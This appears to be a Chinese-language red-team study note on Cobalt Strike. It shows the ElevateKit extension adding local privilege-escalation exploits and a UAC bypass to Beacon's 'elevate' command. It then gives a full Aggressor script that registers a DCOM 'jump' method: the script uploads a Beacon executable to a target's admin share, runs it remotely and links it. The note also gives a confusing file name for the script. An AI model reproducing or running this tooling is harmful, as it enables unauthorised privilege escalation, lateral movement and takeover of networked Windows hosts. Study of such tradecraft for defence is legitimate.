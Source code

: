 # Elevate Kit

原生的elevate命令只提供了两种提升权限的方法

```
beacon> elevate

Beacon Local Exploits
=====================

    Exploit                         Description
    -------                         -----------
    svc-exe                         Get SYSTEM via an executable run as a service
    uac-token-duplication           Bypass UAC with Token Duplication

```


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1661847343109.jpg)

现在加载[elevate.cna](https://github.com/Cobalt-Strike/ElevateKit)这个扩展，可以增加7个


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1661847443739.jpg)

再次查看elevate命令

```
beacon> elevate

Beacon Local Exploits
=====================

    Exploit                         Description
    -------                         -----------
    cve-2020-0796                   SMBv3 Compression Buffer Overflow (SMBGhost) (CVE 2020-0796)
    ms14-058                        TrackPopupMenu Win32k NULL Pointer Dereference (CVE-2014-4113)
    ms15-051                        Windows ClientCopyImage Win32k Exploit (CVE 2015-1701)
    ms16-016                        mrxdav.sys WebDav Local Privilege Escalation (CVE 2016-0051)
    svc-exe                         Get SYSTEM via an executable run as a service
    uac-schtasks                    Bypass UAC with schtasks.exe (via SilentCleanup)
    uac-token-duplication           Bypass UAC with Token Duplication
```


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1661847493243.jpg)

使用新加的```uac-schtasks```,成功升级到高权限


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1661848979858.jpg)

# Jump & Remote-Exec

查看jump命令
```
beacon> jump

Beacon Remote Exploits
======================

    Exploit                   Arch  Description
    -------                   ----  -----------
    psexec                    x86   Use a service to run a Service EXE artifact
    psexec64                  x64   Use a service to run a Service EXE artifact
    psexec_psh                x86   Use a service to run a PowerShell one-liner
    winrm                     x86   Run a PowerShell script via WinRM
    winrm64                   x64   Run a PowerShell script via WinRM
```


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1661849154274.jpg)

把下面脚本保存成``` Invoke-DCOM.ps1```
```
sub invoke_dcom
{
    local('$handle $script $oneliner $payload');

    # acknowledge this command1
    btask($1, "Tasked Beacon to run " . listener_describe($3) . " on $2 via DCOM", "T1021");

    # read in the script
    $handle = openf(getFileProper("C:\\Tools", "Invoke-DCOM.ps1"));
    $script = readb($handle, -1);
    closef($handle);

    # host the script in Beacon
    $oneliner = beacon_host_script($1, $script);

    # generate stageless payload
    $payload = artifact_payload($3, "exe", "x64");

    # upload to the target
    bupload_raw($1, "\\\\ $+ $2 $+ \\C$\\Windows\\Temp\\beacon.exe", $payload);

    # run via this powerpick
    bpowerpick!($1, "Invoke-DCOM -ComputerName $+ $2 $+ -Method MMC20.Application -Command C:\\Windows\\Temp\\beacon.exe", $oneliner);

    # link if p2p beacon
    beacon_link($1, $2, $3);
}

beacon_remote_exploit_register("dcom", "x64", "Use DCOM to run a Beacon payload", &invoke_dcom);
```

load进CS


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1661849490832.jpg)

再次查看jump命令,已经多了一个dcom方法


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1661849530241.jpg)